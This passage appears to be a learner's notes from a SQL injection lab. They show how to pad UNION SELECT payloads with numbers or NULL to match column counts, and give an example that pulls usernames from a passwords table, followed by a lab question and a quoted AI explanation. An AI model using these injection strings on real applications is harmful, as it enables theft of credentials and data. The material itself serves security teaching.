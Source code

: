 Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

The `products` table has two columns in the above example, so we have to `UNION` with two columns. If we only wanted to get one column 'e.g. `username`', we have to do `username, 2`, such that we have the same number of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If we had more columns in the table of the original query, we have to add more numbers to create the remaining required columns. For example, if the original query used `SELECT` on a table with four columns, our `UNION` injection would be:

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

This query would return:

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

As we can see, our wanted output of the '`UNION SELECT username from passwords`' query is found at the first column of the second row, while the numbers filled the remaining columns.

# Question
---

![](images/Pasted%20image%2020250131165907.png)

We can use the following in order to check:

```ad-hint
1. `select * from employees limit 5;`
2. `select * from departments limit 5;`
3. `select dept_no FROM departments UNION select emp_no FROM employees;`
```

Let's ask DeepSeek for a further understanding of the process:


#### **1. `SELECT * FROM employees LIMIT 5;`**

- **Purpose**:  
    This query retrieves the **first 5 rows** from the `employees` table.  
    You’re checking:
    
    - The structure of the table (e.g., columns like `emp_no`, `first_name`, etc.).
        